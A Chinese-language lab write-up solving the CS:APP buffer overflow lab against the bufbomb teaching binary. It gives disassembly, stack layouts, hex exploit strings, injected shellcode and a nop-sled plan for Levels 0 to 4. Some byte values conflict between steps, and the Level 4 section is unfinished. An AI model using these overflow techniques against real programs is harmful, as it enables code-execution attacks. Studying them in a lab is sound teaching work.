



# buffer实验

### Level 0: Candle

**目标：执行 smoke()，而不是让 getbuf() 返回 1。**

```c
void test() {
	int val;
	/* Put canary on stack to detect possible corruption */
	volatile int local = uniqueval();
	val = getbuf();
	    /* Check for corrupted stack */
	    if (local != uniqueval()) {
		printf("Sabotaged!: the stack has been corrupted\n");
	}
	else if (val == cookie) {
		printf("Boom!: getbuf returned 0x%x\n", val);
		validate(3);
	}
	else {
		printf("Dud: getbuf returned 0x%x\n", val);
	}
}
```

在`bufboms.s`的第 363 行找到了 smoke 的地址 08048c18：

[](https://billc.oss-cn-shanghai.aliyuncs.com/img/2020-04-13-163943.png)

再研究 test 的部分汇编代码：

```s
 08048daa <test>:
 8048daa:	55                   	push   %ebp
 8048dab:	89 e5                	mov    %esp,%ebp
 8048dad:	53                   	push   %ebx
 8048dae:	83 ec 24             	sub    $0x24,%esp
 8048db1:	e8 da ff ff ff       	call   8048d90 <uniqueval>
 8048db6:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8048db9:	e8 36 04 00 00       	call   80491f4 <getbuf>
 8048dbe:	89 c3                	mov    %eax,%ebx
 8048dc0:	e8 cb ff ff ff       	call   8048d90 <uniqueval>
```

getbuff:

```s
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret  
```

可以看到 lea 把 buf 的指针地址 (-0x28 (% ebp)) 传给了 Gets ()，0x28 也就是十进制的 40 个字节。而 ebp 占了 4 个字节，buf 距离 getbuff 的返回地址还有 44 个字节。

| 返回地址      | 需要修改的地址     |
| :------------ | :----------------- |
| ebp           | - 占用4字节        |
| ...           | ...                |
| ebp - 40 字节 | buf 数组的初始地址 |
| ...           | ...                |
| ebp - 0x38    | esp，栈帧首地址    |

从文档中得知：

[](https://billc.oss-cn-shanghai.aliyuncs.com/img/2020-04-13-163946.png)

Gets 函数不验证是否超出了 `NORMAL_BUFFER_SIZE`，所以超出字符的就会覆盖掉内存。

那么只要在 buf 开始处随便填入 44 字节（0a 除外，会终止输入），然后在后面加入 smoke 的地址，覆盖掉栈中的返回地址即可。

另外需要注意的是 x86 机器为小端法机器，最低有效字节在内存的前面，所以在 exploit.txt 中填入如下答案即可：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08
```

### level 1：Sparker

目标：调用fizz函数，并且通过传递自己的cookie值作为参数，以此来通过验证

```
08048c42 <fizz>:
 8048c42:	55                   	push   %ebp
 8048c43:	89 e5                	mov    %esp,%ebp
 8048c45:	83 ec 18             	sub    $0x18,%esp
 8048c48:	8b 45 08             	mov    0x8(%ebp),%eax
 8048c4b:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
 8048c51:	75 26                	jne    8048c79 <fizz+0x37>
 8048c53:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048c57:	c7 44 24 04 ee a4 04 	movl   $0x804a4ee,0x4(%esp)
 8048c5e:	08 
 8048c5f:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c66:	e8 55 fd ff ff       	call   80489c0 <__printf_chk@plt>
 8048c6b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c72:	e8 04 07 00 00       	call   804937b <validate>
 8048c77:	eb 18                	jmp    8048c91 <fizz+0x4f>
 8048c79:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048c7d:	c7 44 24 04 40 a3 04 	movl   $0x804a340,0x4(%esp)
 8048c84:	08 
 8048c85:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c8c:	e8 2f fd ff ff       	call   80489c0 <__printf_chk@plt>
 8048c91:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048c98:	e8 63 fc ff ff       	call   8048900 <exit@plt>
```

栈结构示意图：

| 地址         | 解释                 |
| :----------- | :------------------- |
| ebp + 8 字节 | val                  |
| 返回地址     | 应当为 fizz 的首地址 |
| ebp          | 占4字节              |
| ...          |                      |
| ...          |                      |
| ebp-40字节   | buf数组的初始地址    |

同样是在buf中插入cookie值，注意函数参数在函数返回地址之前，所以，cookie值应该插入在ebp+8起始的八个字节中，所以在 exploit.txt 中填入如下答案即可：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 42 8c 04 08
00 00 00 00 86 07 ce 2b 
```



### level2：Firecracker

目标：调用bang函数，并且修改global_value为自己的cookie值

```
08048c9d <bang>:
 8048c9d:	55                   	push   %ebp
 8048c9e:	89 e5                	mov    %esp,%ebp
 8048ca0:	83 ec 18             	sub    $0x18,%esp
 8048ca3:	a1 00 d1 04 08       	mov    0x804d100,%eax
 8048ca8:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
 8048cae:	75 26                	jne    8048cd6 <bang+0x39>
 8048cb0:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048cb4:	c7 44 24 04 60 a3 04 	movl   $0x804a360,0x4(%esp)
 8048cbb:	08 
 8048cbc:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048cc3:	e8 f8 fc ff ff       	call   80489c0 <__printf_chk@plt>
 8048cc8:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048ccf:	e8 a7 06 00 00       	call   804937b <validate>
 8048cd4:	eb 18                	jmp    8048cee <bang+0x51>
 8048cd6:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048cda:	c7 44 24 04 0c a5 04 	movl   $0x804a50c,0x4(%esp)
 8048ce1:	08 
 8048ce2:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048ce9:	e8 d2 fc ff ff       	call   80489c0 <__printf_chk@plt>
 8048cee:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048cf5:	e8 06 fc ff ff       	call   8048900 <exit@plt>
```

已知变量的内存地址，我们可以通过插入恶意代码来修改变量的值，汇编代码如下：

```s
# 改变 global_value
movl $0x2bce0786,0x804d100
# 将 bang 函数的首地址压入栈
pushl $0x08048c9d
ret
```

接下来就是将汇编语言转换成十六进制的机器代码了。使用`gcc -m32 -c` 和 `objdump -d`可以得到转换之后的文件：

```
00000000 <.text>:
   0:	c7 05 00 d1 04 08 86 	movl   $0x2bce0786,0x804d100
   7:	07 ce 2b 
   a:	68 9d 8c 04 08       	push   $0x8048c9d
   f:	c3                   	ret    

```

那么所有的字节就是 `c7 05 00 d1 04 08 70 5a 2d 36 68 9d 8c 04 08 c3`。接下来回到 getbuff 的汇编代码：

```
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret  
```

构造栈的结构：

| 地址                       | 解释                                                         |
| :------------------------- | :----------------------------------------------------------- |
| 0x55683e78                 | 入侵代码的起始地址，也就是调用get函数前eax寄存器的值         |
| ebp                        |                                                              |
| ...                        |                                                              |
| ret                        |                                                              |
| push $0x08048c9d           | 0x08048c9d为bang函数的起始地址                               |
| movl $0x2bce0786,0x804d100 | 0x804d100为global_value变量的内存地址，0x2bce0786为hack对应的cookie值,当前地址为buf数组的初始地址 rsp-40字节 |

结合以上信息，构造下列答案：

```
c7 05 00 d1 04 08 86 07
ce 2b 68 9d 8c 04 08 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 78 3e 68 55
```

运行结果如下：



### level3： Dynamite

目标：注入一段能够修改 getbuf 返回值的代码，返回值从 1 改成 cookie 值，此外还需要还原所有破坏，继续运行 test 的剩下部分，注意getbuf函数开头的push %ebp。

同样回到 getbuff 的汇编代码：

```s
080491f4 <getbuf>:
80491f4:	55                   	push   %ebp
80491f5:	89 e5                	mov    %esp,%ebp
80491f7:	83 ec 38             	sub    $0x38,%esp
80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
80491fd:	89 04 24             	mov    %eax,(%esp)
8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
8049205:	b8 01 00 00 00       	mov    $0x1,%eax
804920a:	c9                   	leave  
804920b:	c3                   	ret  
```

注意到调用Gets函数后，会将eax寄存器置1，于是我们需要跳过这条命令，再修改eax寄存器的值，最后返回到调用getbuf函数的下一条命令，不能回到getbuf函数的leave命令，因为返回test函数的地址已经没了，如果返回到getbuf函数的leave命令，那么还需在ret后面添加test函数的返回地址。

结合 test 的前几行代码：

```s
 08048daa <test>:
 8048daa:	55                   	push   %ebp
 8048dab:	89 e5                	mov    %esp,%ebp
 8048dad:	53                   	push   %ebx
 8048dae:	83 ec 24             	sub    $0x24,%esp
 8048db1:	e8 da ff ff ff       	call   8048d90 <uniqueval>
 8048db6:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8048db9:	e8 36 04 00 00       	call   80491f4 <getbuf>
 8048dbe:	89 c3                	mov    %eax,%ebx
 8048dc0:	e8 cb ff ff ff       	call   8048d90 <uniqueval>
```

所以应当构造 Gets 的栈帧如下：

| 地址          | 解释                                              |
| :------------ | :------------------------------------------------ |
| 返回地址      | 设置成缓冲区的首地址                              |
| ebp           | 占用4字节                                         |
| ...           | ...                                               |
| ebp - 40 字节 | buf 数组的初始地址，从这里开始注入修改 eax 的代码 |
| ...           | ...                                               |
| ebp - 0x38    | esp，栈帧首地址                                   |

构造的汇编命令如下：

```s
00000000 <.text>:
   0:	b8 86 07 ce 2b       	mov    $0x2bce0786,%eax
   5:	68 0a 92 04 08       	push   $0x804920a
   a:	c3                   	ret    

```

为了防止对栈的破坏，ebp 是被调用者保存寄存器，是 test 在调用 getbuf 之后，getbuf 首先就就压进了栈帧里。同时为了使程序继续运行，需要保证 ebp 不被破坏。使用 gdb，在 getbuf 的第一行 `0x080491f4 `处打下断点，研究此时ebp 的值，ebp的值为0x55683ed0。

所以构造的答案为：

```
b8 86 07 ce 2b 68 be 8d
04 08 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d0 3e 68 55 78 3e 68 55
```

最后的运行结果为：



### level4：Nitroglycerin（这个实验的解题思路有点没有理解）

目标：使用-n参数进入该实验，该实验会连续调用5次getbufn，要求我们每次在调用getbufn函数后返回cookie值，而不是1，同时还需恢复所有破坏。

和前面不同的是，这一个阶段由于使用的是 getbufn 和 testn 函数，并且需要将一个相同的字符串输入五次。所以需要使用命令-n

同时，文档也指出在 getbufn 中有`#define KABOOM_BUFFER_SIZE 512`，所以缓冲区大小为 512.

这次研究 getbufn 的汇编代码：

```s
(gdb) disas
Dump of assembler code for function getbufn:
   0x0804920c <+0>:	push   %ebp
   0x0804920d <+1>:	mov    %esp,%ebp
    # esp 减去了 536 个字节
   0x0804920f <+3>:	sub    $0x218,%esp
    # buf 的首地址空间离 ebp 有 520 个字节
=> 0x08049215 <+9>:	lea    -0x208(%ebp),%eax
   0x0804921b <+15>:	mov    %eax,(%esp)
   0x0804921e <+18>:	call   0x8048cfa <Gets>
   0x08049223 <+23>:	mov    $0x1,%eax
   0x08049228 <+28>:	leave  
   0x08049229 <+29>:	ret    
End of assembler dump.
```

在这一阶段，getbufn 会调用 5 次，每次的储存的 ebp 都不一样，官方文档表示这个差值会在 +- 240 的样子：

[](https://billc.oss-cn-shanghai.aliyuncs.com/img/2020-04-13-163954.png)

接下来使用 gdb，在 getbufn 打下断点，连续 5 次查看 % ebp 的值，可以得到这五次 ebp 的值分别是在：

| No   | p/x $ebp   | p/x $ebp - 0x208 |
| :--- | :--------- | :--------------- |
| 1    | 0x55683110 | 0x55682f08       |
| 2    | 0x556830b0 | 0x55682ea8       |
| 3    | 0x55683100 | 0x55682ef8       |
| 4    | 0x55683110 | 0x55682f08       |
| 5    | 0x55683180 | 0x55682f78       |

对应的，buf 的起始地址就是每一次记的 ebp 减去 208，也就是 520 字节。

所以每一次的地址是无法确认的。英文文档中介绍了可以使用 `nop sled` 的方法来解决这一问题。参考 CSAPP 教材中的介绍：


因为在这个实验中，栈的地址是变化的。我们不知道有效机器代码的入口地址了，因此我们需要在有效机器代码前填充大量的nop指令，只要程序可以跳转到这些nop指令中，那么最终就可以滑到有效的机器代码。

运行getbufn函数时，会随机在栈上分配一块存储地址，因此，getbufn的基址ebp时随机变化的。但是又要求我们写的跳转地址是固定的，所以我们应该在有效代码之前大量填充nop指令，让这段地址内的代码都会滑到这段nop之后的代码上。

由于栈上的机器代码是按地址由低向高顺序执行，要保证五次运行都能顺利执行有效机器代码，需要满足：跳转地址位于有效机器代码入口地址之前的nop机器指令填充区。这要求尽可能增大nop填充区，尽可能使有效机器代码段往后挪。

从反汇编可以看出，buf的首地址为ebp-0x208，所以buf总共的大小为520字节。考虑这个函数中，testn的ebp随每次输入都随机变化，但是栈顶esp的位置却不变，所以我们可以通过esp和ebp的关系来找出这个关系，从而进行攻击

首先在sub $0x218，esp这一句设置断点，并使用-n模式运行程序，并查看ebp的值。

我们要做的是找出最大的ebp值0x556835e0，再减去0x208，即为最高的buf的始地址为：0x556833D8。

如果将有效机器代码置于跳转地址之前，并将其它所有字符都用作nop指令，此时所有五个buf地址的写入都能满足跳转到地址0x556833D8后顺利到达有效机器代码

接下来需要处理的问题是注入并覆盖 ebp 后，把正确的 esp 还原回去。研究 testn 的部分汇编代码：

```s
Dump of assembler code for function testn:
   0x08048e26 <+0>:	push   %ebp
   0x08048e27 <+1>:	mov    %esp,%ebp
   0x08048e29 <+3>:	push   %ebx
   0x08048e2a <+4>:	sub    $0x24,%esp
   0x08048e2d <+7>:	call   0x8048d90 <uniqueval>
   0x08048e32 <+12>:	mov    %eax,-0xc(%ebp)
   0x08048e35 <+15>:	call   0x804920c <getbufn>
   0x08048e3a <+20>:	mov    %eax,%ebx
   0x08048e3c <+22>:	call   0x8048d90 <uniqueval>
```

在每一次调用了 getbufn 之后，ebp 的值将会被 push 进去。这个 ebp 值是等于 testn 被调用的时候 esp 存储的值的。esp 先由于 push ebx 而减去了 4，再手动减去了 0x24，所以这个时候 exp + 0x28 的值就是传入了 getbufn 开始的时候 ebp 的值。

所以构造出来的汇编代码如下：

```s
lea 0x28(%esp), %ebp
mov $0x362d5a70, %eax
push $0x08048e3a
ret
```

| 地址          | 解释                                              |
| :------------ | :------------------------------------------------ |
| 返回地址      | 设置成缓冲区的首地址                              |
| ebp           | 占用4字节                                         |
| ...           | ...                                               |
| ebp - 520字节 | buf 数组的初始地址，从这里开始注入修改 eax 的代码 |
| ...           | ...                                               |
| ebp - 0x218   | esp，栈帧首地址                                   |